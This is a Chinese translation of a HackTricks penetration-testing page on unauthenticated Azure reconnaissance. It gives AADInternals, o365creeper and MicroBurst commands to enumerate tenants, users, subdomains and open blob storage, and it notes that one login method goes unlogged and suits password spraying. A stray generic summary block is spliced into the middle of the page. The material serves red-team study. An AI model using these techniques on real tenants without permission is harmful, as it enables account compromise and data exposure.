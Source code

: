 # Az - 未经认证的枚举与初始入口

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter**上**关注**我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## Azure租户

### 租户枚举

有一些**公共Azure API**，只需知道**租户的域名**，攻击者就可以查询以收集更多关于它的信息。\
您可以直接查询API或使用PowerShell库 [**AADInternals**](https://github.com/Gerenios/AADInternals)**：**

| API                                                                  | 信息                                                                                                                                                                                                                                                  | AADInternals函数                                  |
| -------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------- |
| login.microsoftonline.com/\<domain>/.well-known/openid-configuration | **登录信息**，包括租户ID                                                                                                                                                                                                                              | `Get-AADIntTenantID -Domain <domain>`             |
| autodiscover-s.outlook.com/autodiscover/autodiscover.svc             | **租户的所有域名**                                                                                                                                                                                                                                    | `Get-AADIntTenantDomains -Domain <domain>`        |
| login.microsoftonline.com/GetUserRealm.srf?login=\<UserName>         | <p><strong>租户的登录信息</strong>，包括租户名称和域名<strong>认证类型。</strong><br>如果<code>NameSpaceType</code>是<strong><code>Managed</code></strong>，这意味着使用了<strong>AzureAD</strong>。</p> | `Get-AADIntLoginInformation -UserName <UserName>` |
| login.microsoftonline.com/common/GetCredentialType                   | 登录信息，包括**桌面SSO信息**                                                                                                                                                                                                                         | `Get-AADIntLoginInformation -UserName <UserName>` |

您可以使用[**AADInternals**](https://github.com/Gerenios/AADInternals) **库的仅一个命令**查询Azure租户的所有信息：
```powershell
Invoke-AADIntReconAsOutsider -DomainName corp.onmicrosoft.com | Format-Table
```
输出示例：Azure 租户信息：
```
Tenant brand:       Company Ltd
Tenant name:        company
Tenant id:          05aea22e-32f3-4c35-831b-52735704feb3
DesktopSSO enabled: True

Name                           DNS   MX    SPF  Type      STS
----                           ---   --    ---  ----      ---
company.com                   True  True  True  Federated sts.company.com
company.mail.onmicrosoft.com  True  True  True  Managed
company.onmicrosoft.com       True  True  True  Managed
int.company.com              False False False  Managed
```
从输出中我们可以看到目标组织的租户信息，包括租户名称、ID和“品牌”名称。我们还可以看到**桌面单点登录（又名**[**无缝 SSO**](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)**）是否启用**。如果启用，我们可以找出目标组织中是否存在给定用户（用户枚举）。

我们还可以看到目标租户的所有（已验证）域名及其身份类型。对于联合域，还会显示所使用的身份提供者（通常是 ADFS 服务器）的 FQDN。MX 列指示电子邮件是否发送到 Exchange Online。SPF 列指示 Exchange Online 是否列为电子邮件发送者。**注意！**目前，侦察功能不遵循 SPF 记录的 include 语句，因此可能会有误报。

### 用户枚举

可以**检查租户内是否存在用户名**。这也包括**访客用户**，其用户名格式为：
```
<email>#EXT#@<tenant name>.onmicrosoft.com
```
电子邮件是用户的电子邮件地址，其中的“@”被下划线“\_”替换。

使用 [**AADInternals**](https://github.com/Gerenios/AADInternals)，您可以轻松检查用户是否存在：
```powershell
# Check does the user exist
Invoke-AADIntUserEnumerationAsOutsider -UserName "user@company.com"
```
```markdown
# Azure 未经认证的枚举和初始入口

在对Azure环境进行渗透测试时，初始信息收集是关键步骤。这通常涉及到未经认证的枚举，即在不拥有有效凭证的情况下收集尽可能多的信息。

## 枚举Azure服务

Azure提供了多种服务，每种服务都可能泄露有价值的信息。以下是一些常见服务及其潜在的信息泄露风险：

- **Azure Blob Storage**：可能包含敏感数据，如果配置不当，可能会公开访问。
- **Azure Virtual Machines**：可以通过其元数据服务泄露VM实例详细信息。
- **Azure Kubernetes Service (AKS)**：可能泄露配置信息，包括API服务器的地址。

## 初始入口点

确定潜在的初始入口点是成功渗透的关键。以下是一些可能的入口点：

- 公开的Azure Blob存储容器
- 未经保护的Azure VM的元数据服务
- 暴露的AKS API服务器

## 工具和技术

渗透测试人员可以使用各种工具和技术来执行未经认证的枚举，例如：

- 使用自定义脚本来发现和枚举Azure服务。
- 利用公开的API和端点进行信息收集。
- 使用专门的渗透测试工具，如`MicroBurst`。

## 结论

未经认证的枚举是Azure渗透测试的重要组成部分。通过识别和利用信息泄露，渗透测试人员可以为进一步的攻击行动找到初始入口点。
```
```
UserName         Exists
--------         ------
user@company.com True
```
你也可以使用一个文本文件，每行包含一个电子邮件地址：
```
user@company.com
user2@company.com
admin@company.com
admin2@company.com
external.user_gmail.com#EXT#@company.onmicrosoft.com
external.user_outlook.com#EXT#@company.onmicrosoft.com
```

```powershell
# Invoke user enumeration
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal
```
有**三种不同的枚举方法**可供选择：

| 方法       | 描述                                                                                                                                                                                                     |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Normal     | 这指的是上面提到的 GetCredentialType API。默认方法。                                                                                                                                                     |
| Login      | <p>此方法尝试以用户身份登录。<br><strong>注意：</strong>查询将记录到登录日志中。</p>                                                                                                                      |
| Autologon  | <p>此方法尝试通过自动登录端点以用户身份登录。<br><strong>查询不会被记录</strong>到登录日志中！因此，也适用于密码喷涂和暴力破解攻击。</p>                                                                 |

在发现有效的用户名后，你可以获取**用户的信息**：
```powershell
Get-AADIntLoginInformation -UserName root@corp.onmicrosoft.com
```
脚本 [**o365creeper**](https://github.com/LMGsec/o365creeper) 也允许您发现**如果一个电子邮件是有效的**。
```powershell
# Put in emails.txt emails such as:
# - root@corp.onmicrosoft.com
python.exe .\o365creeper\o365creeper.py -f .\emails.txt -o validemails.txt
```
## Azure 服务

现在我们知道了**Azure 租户**正在使用的**域名**，是时候尝试找到**暴露的 Azure 服务**了。

你可以使用 [**MicroBust**](https://github.com/NetSPI/MicroBurst) 中的一个方法来实现这个目标。这个函数将在几个**azure 服务域名**中搜索基础域名（以及一些变体）：
```powershell
Import-Module .\MicroBurst\MicroBurst.psm1 -Verbose
Invoke-EnumerateAzureSubDomains -Base corp -Verbose
```
## 开放存储

您可以使用像 [**InvokeEnumerateAzureBlobs.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/Misc/Invoke-EnumerateAzureBlobs.ps1) 这样的工具来发现开放存储，它将使用文件 **`Microburst/Misc/permitations.txt`** 生成排列（非常简单），以尝试**找到开放的存储账户**。
```powershell
Import-Module .\MicroBurst\MicroBurst.psm1
Invoke-EnumerateAzureBlobs -Base corp
[...]
https://corpcommon.blob.core.windows.net/secrets?restype=container&comp=list
[...]

# Access https://corpcommon.blob.core.windows.net/secrets?restype=container&comp=list
# Check: <Name>ssh_info.json</Name>
# Access then https://corpcommon.blob.core.windows.net/secrets/ssh_info.json
```
### SAS URLs

_**共享访问签名**_（SAS）URL 是一个提供对存储帐户某部分访问权限的 URL（可以是完整的容器、文件等），具有对资源的特定权限（读、写等）。如果你发现一个泄露的 SAS URL，你可能能够访问敏感信息，它们看起来像这样（这是用来访问容器的，如果它只是授予对文件的访问权限，URL 的路径还会包含该文件）：

`https://<storage_account_name>.blob.core.windows.net/newcontainer?sp=r&st=2021-09-26T18:15:21Z&se=2021-10-27T02:14:21Z&spr=https&sv=2021-07-08&sr=c&sig=7S%2BZySOgy4aA3Dk0V1cJyTSIf1cW%2Fu3WFkhHV32%2B4PE%3D`

使用 [**Storage Explorer**](https://azure.microsoft.com/en-us/features/storage-explorer/) 来访问数据

## 妥协凭证

### 钓鱼攻击

* [**常见钓鱼攻击**](https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology)（凭证或 OAuth 应用程序 -[非法同意授权攻击](az-illicit-consent-grant.md)-）
* [**设备代码认证** 钓鱼攻击](az-device-code-authentication-phishing.md)

### 密码喷涂 / 暴力破解

{% content-ref url="az-password-spraying.md" %}
[az-password-spraying.md](az-password-spraying.md)
{% endcontent-ref %}

## 参考资料

* [https://o365blog.com/post/just-looking/](https://o365blog.com/post/just-looking/)

<details>

<summary><strong>从零开始学习 AWS 黑客攻击成为英雄，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

其他支持 HackTricks 的方式：

* 如果你想在 HackTricks 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享你的黑客技巧。

</details>
